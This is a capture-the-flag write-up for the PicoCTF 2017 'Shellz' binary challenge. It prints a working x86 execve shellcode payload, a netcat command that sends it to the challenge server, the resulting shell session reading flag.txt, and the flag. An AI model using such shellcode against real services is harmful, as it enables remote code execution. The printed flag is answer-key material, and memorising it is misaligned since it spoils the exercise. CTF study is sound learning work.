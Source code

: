 # PicoCTF_2017: Shellz

**Category:** Binary
**Points:** 55
**Description:**

>You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:23459.

**Hint:**

>There is a bunch of preexisting shellcode already out there!

## Write-up
The biggest problem with this challenge is the limited amount of shellcodes that would actually work here. It probably took me like 15 tries before I got the [correct shellcode](http://shell-storm.org/shellcode/files/shellcode-575.php). So first, prepare the payload.

    python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')" > payload

Then, use the payload like this

    cat payload - | nc shell2017.picoctf.com 12562
    My mother told me to never accept things from strangers
    How bad could running a couple bytes be though?
    Give me 40 bytes:
    ls
    flag.txt
    shellz
    shellz_no_aslr
    xinetd_wrapper.sh
    cat flag.txt
    a15898b0a97abc19164f240407d6c51b

Therefore, the flag is `a15898b0a97abc19164f240407d6c51b`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQ0NzM1Mjc0XX0=
-->